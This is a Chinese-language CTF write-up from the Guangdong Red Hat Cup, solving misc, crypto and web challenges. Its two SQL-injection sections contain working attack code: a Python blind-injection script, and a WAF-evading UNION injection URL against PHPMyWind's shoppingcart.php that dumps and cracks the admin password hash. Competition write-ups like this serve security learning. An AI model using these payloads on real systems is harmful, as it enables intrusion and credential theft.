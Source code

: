 <!--
广东省红帽杯网络安全攻防大赛 CTF - Write Up
广东省红帽杯网络安全攻防大赛 CTF
1497753838
-->

## 签到 / Misc / 10pt

本期的签到题没有难度，关注微信公众号「CTFer 的魔法棒」，关注后在公众号中发送 ctf 就会自动回复本题的 FLAG

![](https://vip1.loli.net/2019/12/26/RpjaZlS51qtXrId.jpg)

```
flag{BE78989E-1F00-8326-11AD-590B23F48AB3}
```

## brian(Y) / Crypto / 50pt

在我还在做签到题的时候就已经有队伍解出来这道题了，所以估计不会太难。

```
+++++ +++++ [->++ +++++ +++<] >++.+ +++++ .<+++ [->-- -<]>- -.+++ +++.<
++++[ ->+++ +<]>+ +++.< ++++[ ->--- -<]>- ----- .<+++ +++[- >---- --<]>
----- ----- -.+.- ..--- ---.. <++++ +++[- >++++ +++<] >.<++ +++++ [->--
----- <]>-- -.+++ .++++ ++.<+ +++++ [->++ ++++< ]>+++ +++++ .<+++ +++[-
>---- --<]> ----- ----- .---- ---.+ +++++ +.<++ ++++[ ->+++ +++<] >++++
+++++ .<+++ +++[- >---- --<]> ----- ----- -.--. ---.< +++++ ++[-> +++++
++<]> ++++. <++++ +++[- >---- ---<] >.+++ +.+++ +.<++ +[->- --<]> ---.<
+++++ ++[-> +++++ ++<]> +++++ +.<++ ++++[ ->--- ---<] >---- ----- --.+.
-.-.. ---.+ +++.< +++++ +[->+ +++++ <]>++ +++++ ++++. <++++ +++[- >----
---<] >---. <++++ +++[- >++++ +++<] >++.< +++++ +[->- ----- <]>-- -----
----- .<+++ +++++ [->++ +++++ +<]>+ +++++ ++++. <
```

观察可知，该密文主要由 +-<>[]. 组成。经过判断，这种语言称为 Brainfuck ，一般由 +-<>[]., 八种字符组成。 使用在线转换网站即可将密文转换回文本，https://www.splitbrain.org/services/ook

```
flag{e676600a-06b4-4a20-b159-d5654415d0c3}
```

## 后台 / Web / 200pt

我真的觉得这题给 200 分是放水的。

题目已经十分明显得暗示了答案

> 经典后台管理系统，系统建成于 2017 年，管理员以建成日期作为口令。

![](https://vip1.loli.net/2019/12/26/OGdtKb8uAQnLzeq.png)

打开网页， `admin` 已经作为 `value` 的参数写在了用户名这一栏当中，可以十分肯定用户名就是 `admin`

而密码根据 `placeholder="........"` 的推测，是有 8 位数的，结合题目的暗示，即为今天的日期： `20170506`

输入验证码后登录，即可以轻松拿到 Flag

```
flag{2ac81311-0d7c-4f52-92ae-233ba3515a6d}
```

##刮刮乐 / Web / 100pt

一打开这个网页，首先我关注了他的网页源代码，源代码并没有给出太多的提示。

在网上进行了相关的搜索，发现这是一个网上一个经典的 canvas 刮刮乐代码，因此问题应该不再这里。

然后我将重点放在了这张图中

一开始以为是 png 隐写之类的，通过 binwalk 检测这应该只是一张纯粹的图片

```
imlonghao@imlonghao ~/下载$ binwalk 5286cd31708ef957.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 403 x 214, 8-bit/color RGB, non-interlaced
77            0x4D            Zlib compressed data, default compression
```

然后我就关注在了图片本身，「信息泄露第一步」，应该就是暗示我们扫一下网站的目录。

很快我便发现了存在 `/.git/` 目录，然后套上了 GitHack

很快下载到了一个 `flag.php` 文件，我们的 flag 就躺在里面

![](https://vip1.loli.net/2019/12/26/OGdtKb8uAQnLzeq.png)

```
flag{027ea8c2-7be2-4cec-aca3-b6ba400759e8}
```

## thinkseeker / Web / 300pt

这题开始便有意思了，网页打开就是一个非常简单的提交登录框，估计就是 SQL 注入类型的。

![](https://vip1.loli.net/2019/12/26/NPVE6c79KFCeDHa.png)

随便输入了一个 `userid` 和密码，他是以 GET 的方式提交到 / 这个文件的，构成的 URL 就是 http://106.75.117.4:3083/?userid=1&password=1

但是他始终提示我们 `Bad token!` ，一开始也卡了挺久，后来想应该是和其他参数一样，于是构造了个 `http://106.75.117.4:3083/?userid=1&password=1&token=blablabla` 的链接

经过一轮测试， token 应该为 admin 的 MD5 值，然后我们便通过了 token 的检测。

userid 通常按照数据库的自增的话，应该第一个就是 1 ，然后我们知道了这个用户的 userid 为 1

然后进行 SQL 的测试，先看看他有什么被过滤的字符

`'` `"` `join` `union` , 这些被检测出来之后会提示 `inj code!` ，过滤得不多，还有挺多的发挥空间。

参考了网上的姿势，给 userid 使用了 `-1=1=0` ，多重判断之后也成功得通过了 userid 的检验，因此尝试从这里进行盲注。

于是写了个 Python 脚本进行处理，从 Flag 的第一位开始判断，逐位判断。

```python
import requests

url = 'http://106.75.117.4:3083/index.php?userid=(ascii(mid((select(flag)from(flag))from(%s)for(1)))=%s)&password=123456&token=21232f297a57a5a743894a0e4a801fc3'
payloads = '{}-0123456789QWERTYUIOPLKJHGFDSAZXCVBNMqwertyuioplkjhgfdsazxcvbnm'
flag = ''

for i in range(1, 40):
    for payload in payloads:
        text = requests.get(url % (i, ord(payload))).text
        if 'error userid' not in text:
            flag += payload
            continue
    print(flag)


flag{71fb58931b330a83eba9b25e40ac437a}
```

![](https://vip1.loli.net/2019/12/26/wPfAYDuIcKB9m5p.png)

## PHPMyWIND / Web / 200pt

![](https://vip1.loli.net/2019/12/26/1OczWxBlVL5kN3P.png)

首先看了看网站的 Logo ，所使用的版本应该是 2014 年之前的，也就是说我们有很多选择可以进行操作。

我所使用的注入点是 `shoppingcart.php` 这个文件，注入的结果可以直接以 title 的形式返回出来，比较方便。

首先直接访问

```
http://106.75.96.7:3089/shoppingcart.php?a=addshopingcart&goodsid=1 and @`'` /*!50000union*/ select null,null,null,null,null,null,null,null,null,null,(Select concat(username,0x7e,password) from `pmw_admin` where id=1),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from pmw_admin where 1=1 or @`'`&buynum=1&goodsattr=tpcs
```

然后在查看我们的购物车

http://106.75.96.7:3089/shoppingcart.php

![](https://vip1.loli.net/2019/12/26/4v2RYBHuPwZNsQn.png)

我们就拿到了管理员的用户名和密码，分别是 `admin` 和 `4027875a97a7787b9032ea46dae45d05`

通过 CMD5 不难解出 4027875a97a7787b9032ea46dae45d05 的明文就是 666888

使用 admin 和 666888 即可登录到后台，后台的地址也是默认的地址： http://106.75.96.7:3089/admin/

本来是想通过后台 getshell 进行操作然后拿 Flag 的，但是管理员限制了所有上传目录权限，也禁止了修改网站的配置文件。

想了想上午题目刚出来的时候目标站被各种 phpinfo 所占据，影响到很多队伍参赛，我就断定应该是管理员故意禁止的，可能出题人并不希望我们拿 shell ，而是应该将 Flag 写在了网站的某个地方，于是把所有能点的地方点了一遍。

最后找到了这个叫 默认模板文件管理 的地方，发现了我们的 Flag

![](https://vip1.loli.net/2019/12/26/g47eZqkdz6EXJoL.png)

于是直接访问这个地址，顺利拿到 Flag

![](https://vip1.loli.net/2019/12/26/xc6mvNojrMXs9Cu.png)

```
flag{14070c9e-bab5-47ec-88f7-9e574bd328f6}
```
